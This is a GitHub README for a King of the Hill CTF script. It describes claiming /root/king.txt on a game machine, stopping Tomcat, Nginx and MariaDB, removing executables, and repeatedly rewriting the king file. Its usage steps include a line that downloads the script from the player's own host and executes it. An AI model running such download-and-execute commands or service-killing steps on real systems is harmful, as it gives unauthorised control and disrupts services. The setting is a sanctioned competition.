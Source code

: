 # The KOTH Script


![King](king.jpg)

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the \`/root/king.txt\` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Step 1
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Step 2
       
       cd KOTH-Scripts && python3 -m http.server 80

3. In KOTH Machine.
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

4. Enter your desired nickname when prompted.

5. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
